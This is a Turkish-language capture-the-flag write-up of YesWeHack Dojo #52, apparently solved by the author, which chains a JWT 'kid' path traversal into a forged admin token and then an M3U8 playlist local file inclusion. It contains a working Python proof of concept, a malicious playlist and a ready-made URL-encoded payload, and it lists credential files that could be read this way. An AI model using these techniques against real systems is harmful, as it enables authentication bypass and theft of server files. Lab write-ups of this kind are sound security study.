


# 🔓 Dojo #52 — StreamCore: Path Traversal → Auth Bypass + LFI

> [!abstract] TL;DR
> **StreamCore** uygulamasında JWT `kid` parametresindeki ==Path Traversal== açığı ile ==Authentication Bypass== gerçekleştirilmiş, ardından M3U8 playlist içeriğine yerleştirilen yerel dosya yolu aracılığıyla ==Local File Inclusion (LFI)== zincirlenmiştir.
> Sonuç: Sunucudaki `/tmp/flag.txt` dosyası okunarak **Information Disclosure** elde edilmiştir.

| Alan                     | Detay                                                                       |     |
| :----------------------- | :-------------------------------------------------------------------------- | --- |
| **Platform**             | [YesWeHack Dojo](https://dojo-yeswehack.com/challenge-of-the-month/dojo-52) |     |
| **Hedef**                | StreamCore — HLS Manifest İşleme Servisi                                    |     |
| **Zafiyet Türü**         | Path Traversal + LFI → Information Disclosure                               |     |
| **Vulnerable Parameter** | `token` (POST — JWT `kid` header alanı)                                     |     |
| **Gönderim**             | 2026-06-24                                                                  |     |
| **Durum**                | ✅ Accepted                                                                  |     |

---

## 🎯 Uygulama İş Akışı

StreamCore küçük bir servis olup kullanıcının `.m3u8` (HLS) manifest dosyası ve JWT token ile kimlik doğrulaması yapmasını sağlar:



---

## 🐛 Keşfedilen Zafiyetler

### Zafiyet 1 — JWT `kid` Path Traversal → Authentication Bypass

> [!danger] Kök Neden
> `kid` (Key ID) değeri doğrudan dosya yoluna ekleniyor, **hiçbir sanitizasyon yapılmıyor**.
> ```
> /tmp/keys/{kid}.txt  →  /tmp/keys/../README.txt  →  /tmp/README.txt
> ```

Saldırgan `kid` alanını `../README` olarak ayarlayarak sunucunun `/tmp/README.txt` dosyasını HMAC anahtarı olarak okumasını sağlıyor. Bu dosyanın içeriği bilindiği için (`"streamcore is a new project developed to handle u3m8 files more easily."`) sahte bir admin JWT token imzalanabiliyor.

### Zafiyet 2 — Streamlink Local File Inclusion (LFI)

> [!danger] Kök Neden
> Kullanıcının gönderdiği M3U8 içeriği doğrudan diske yazılıyor ve `streamlink` ile açılıyor. Streamlink `file://` şemasını desteklediğinden, M3U8 segment olarak **yerel dosya yolları** verilebiliyor.

---

## ⚔️ Exploit Zinciri



---

### Adım 1 — Sahte Admin JWT Token Oluşturma

> [!example]- JWT Header ve Payload
> **Header:**
> ```json
> {
>   "alg": "HS256",
>   "kid": "../README",
>   "typ": "JWT"
> }
> ```
> **Payload:**
> ```json
> {
>   "isadmin": true
> }
> ```
> **HMAC Secret:** `streamcore is a new project developed to handle u3m8 files more easily.`

### Adım 2 — Kötü Amaçlı M3U8 Playlist

> [!example]- M3U8 İçeriği
> ```
> #EXTM3U
> #EXT-X-VERSION:3
> #EXT-X-TARGETDURATION:1
> #EXT-X-MEDIA-SEQUENCE:0
> #EXTINF:1.0,
> /tmp/flag.txt
> #EXT-X-ENDLIST
> ```
> Segment olarak verilen `/tmp/flag.txt`, streamlink tarafından okunup HTTP yanıtında döndürülecektir.

### Adım 3 — PoC Script (Python)

> [!tip] Gereksinim: `pip install pyjwt`

```python
import jwt, json
from urllib.parse import quote

# /tmp/README.txt dosyasının bilinen içeriği
KID = "../README"
KEY = b"streamcore is a new project developed to handle u3m8 files more easily."
FLAG_PATH = "/tmp/flag.txt"
FILENAME = "pwn"

# 1) Sahte admin JWT token oluştur
token = jwt.encode(
    {"isadmin": True},
    KEY,
    algorithm="HS256",
    headers={"kid": KID}
)

# 2) Kötü amaçlı M3U8 playlist
m3u8 = (
    "#EXTM3U\n"
    "#EXT-X-VERSION:3\n"
    "#EXT-X-TARGETDURATION:1\n"
    "#EXT-X-MEDIA-SEQUENCE:0\n"
    "#EXTINF:1.0,\n"
    f"{FLAG_PATH}\n"
    "#EXT-X-ENDLIST\n"
)

# 3) Final payload
payload = {"filename": FILENAME, "content": m3u8, "token": token}
raw = json.dumps(payload, separators=(",", ":"))

print("URL-ENCODED PAYLOAD:")
print(quote(raw, safe=""))
```

### Adım 4 — URL-Encoded Payload

> [!note]- Hazır Payload (Kopyala-Yapıştır)
> ```
> %7B%22filename%22%3A%22pwn%22%2C%22content%22%3A%22%23EXTM3U%5Cn%23EXT-X-VERSION%3A3%5Cn%23EXT-X-TARGETDURATION%3A1%5Cn%23EXT-X-MEDIA-SEQUENCE%3A0%5Cn%23EXTINF%3A1.0%2C%5Cn%2Ftmp%2Fflag.txt%5Cn%23EXT-X-ENDLIST%5Cn%22%2C%22token%22%3A%22eyJhbGciOiJIUzI1NiIsImtpZCI6Ii4uL1JFQURNRSIsInR5cCI6IkpXVCJ9.eyJpc2FkbWluIjp0cnVlfQ.ma7hL-YrU031b3g9WouAbxkq408z5PYIBGXSnMZ5wQE%22%7D
> ```

> [!success] Sonuç
> Sunucu ==**"You've Pwned It! 💥"**== mesajı ile yanıt verir ve flag başarıyla okunur.

---

## ⚠️ Risk Analizi

| Risk | Açıklama |
| :--- | :--- |
| **Authentication Bypass** | Saldırgan gerçek gizli anahtarı bilmeden geçerli admin token oluşturabilir. |
| **Local File Inclusion** | Sunucudaki herhangi bir dosya okunabilir: kaynak kodlar, `.env`, `/etc/passwd`, `/proc/self/environ` vb. |
| **Data Breach** | İç dosyaların ifşası altyapının, diğer kullanıcıların verilerinin tehlikeye girmesine yol açabilir. |
| **Privilege Escalation** | Okunan credential veya API key'ler ile diğer sistemlere pivotlanabilir. |

---